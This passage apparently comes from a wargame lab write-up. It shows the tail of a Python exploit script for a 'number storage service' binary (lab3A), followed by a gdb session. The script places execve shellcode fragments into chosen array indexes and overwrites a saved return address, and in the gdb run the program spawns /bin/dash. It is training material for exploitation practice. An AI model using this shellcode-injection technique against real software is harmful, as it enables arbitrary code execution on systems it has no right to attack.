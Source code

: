 ```python
payload += store(0x04eb9090, 11)
payload += store(0x90909090, 13)
payload += store(0x04eb9090, 14)
payload += store(0x9050c031, 16)
payload += store(0x04eb9090, 17)
payload += store(0x732f2f68, 19)
payload += store(0x04eb9068, 20)
payload += store(0x69622f68, 22)
payload += store(0x04eb906e, 23)
payload += store(0xc189e389, 25)
payload += store(0x04ebc289, 26)
payload += store(0x80cd0bb0, 28)

# Overwrite the return address
payload += store(0xbffff50c, 109) 
payload += "quit\n"

print(payload)
```

Next, let's execute our proof of concept in `gdb`.

```nasm
gdb-peda$ r < <(python /tmp/lab3c.py)
Starting program: /levels/lab03/lab3A < <(python /tmp/lab3c.py)
----------------------------------------------------
  Welcome to quend's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   quend has reserved some storage for herself :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
process 2373 is executing new program: /bin/dash
[Inferior 1 (process 2373) exited normally]
Warning: not running or target is remote
```
